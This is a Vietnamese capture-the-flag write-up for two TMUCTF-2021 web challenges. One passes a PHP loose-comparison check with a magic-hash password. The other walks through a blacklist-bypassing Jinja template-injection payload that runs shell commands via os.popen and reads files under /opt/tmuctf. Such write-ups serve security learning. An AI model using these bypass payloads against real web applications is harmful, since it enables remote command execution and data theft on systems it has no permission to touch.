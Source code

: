 # TMUCTF-2021 (Web challenges)
## Login
Ban đầu mình thử với một vài payload sqli nhưng không phải.

Thử check file robots.txt chúng ta sẽ có được source code:
```
if (isset($_GET["password"])) {
    if (hash("md5", $_GET["password"]) == $_GET["password"]) {
        echo "<h1>Here is the flag:</h1>" . $flag;
    } else {
        echo "Try harder!";
    }
}
```

Bài này thực hiện so sánh password do chúng ta nhập với md5 hash của nó. Nếu như kết quả giống nhau thì sẽ echo ra flag.

Lợi dụng Loose comparation trong PHP để giải quyết vấn đề này.

password: 0e215962017

### Flag: TMUCTF{D0_y0u_kn0w_7h3_d1ff3r3nc3_b37w33n_L0053_c0mp4r150n_4nd_57r1c7_c0mp4r150n_1n_PHP!?}

## Injection
### Dạng bài: server-side templete injection 

Điều khó khăn nhất trong bài này chính là đề bài không cung cấp blacklist cho chúng ta nên chúng ta không thể soạn một payload hoàn chỉnh ngay được

Sau một vài lần thử thì mình có thể biết được: các kí tự: '_', request, '.','[' đều bị filter:

* `__` có thể được thay thế bằng `\x5f\x5f`

*`.` và `[` có thể sử dụng `|attr để thay thế`
 
 Hiển thị tất cả class:
 ```
 {{()|attr('\x5f\x5fclass\x5f\x5f')|attr('\x5f\x5fbase\x5f\x5f')|attr('\x5f\x5fsubclasses\x5f\x5f')()}}
 ```
 Đến đây có thể tìm được ví trí của class mình cần, mình tìm được vị trí của class `os._wrap_close` là 132
 
 Get class `os._wrap_close`:
 ```
 {{()|attr('\x5f\x5fclass\x5f\x5f')|attr('\x5f\x5fbase\x5f\x5f')|attr('\x5f\x5fsubclasses\x5f\x5f')()|attr('\x5f\x5fgetitem\x5f\x5f')(132)
 ```
 
 Cứ lần lượt như vậy mình có được payload:
 
 ```
 {{()|attr('\x5f\x5fclass\x5f\x5f')|attr('\x5f\x5fbase\x5f\x5f')|attr('\x5f\x5fsubclasses\x5f\x5f')()|attr('\x5f\x5fgetitem\x5f\x5f')(132)|attr('\x5f\x5finit\x5f\x5f')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('ls')|attr('read')()}}
 ```
 Nhưng đây chưa phải là payload cuối cùng mình có thể sử dụng vì os, popen và khoảng trắng đều bị filter:
 
 * Thay `'os'` bằng `'\x6f\x73'`
 
 * Thay `'popen'` bằng `'pop''en'`
 
 * Thay khoảng trằng băng ${IFS}
 
 Finally, chúng ta đã có thể excute được command.
 
 ```
 {{()|attr('\x5f\x5fclass\x5f\x5f')|attr('\x5f\x5fbase\x5f\x5f')|attr('\x5f\x5fsubclasses\x5f\x5f')()|attr('\x5f\x5fgetitem\x5f\x5f')(132)|attr('\x5f\x5finit\x5f\x5f')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('\x6f\x73')|attr('po''pen')('cat${IFS}/opt/tmuctf/*')|attr('read')()}}
 ```
 
 Trong bài này việc tìm flag cũng có đôi chút khó khăn, flag không nằm trong những file 'flag.txt' hay nằm sẵn ở dạng TMUCTF{}.
 
 Mình mất khá nhiều thời gian để tìm được path chứa flag. Cuối cùng mình thử cat file help thì được hint là flag là file cuối cùng được upload trong /opt/tmuctf/
 
 `ls${IFS}-t` để sắp xếp file theo thời gian
 
 Sau đó cat file và base64-decode nội dung sẽ được flag:
 
 ### Flag: TMUCTF{0h!_y0u_byp4553d_4ll_my_bl4ckl157!!!__1_5h0uld_h4v3_b33n_m0r3_c4r3ful}
 
 



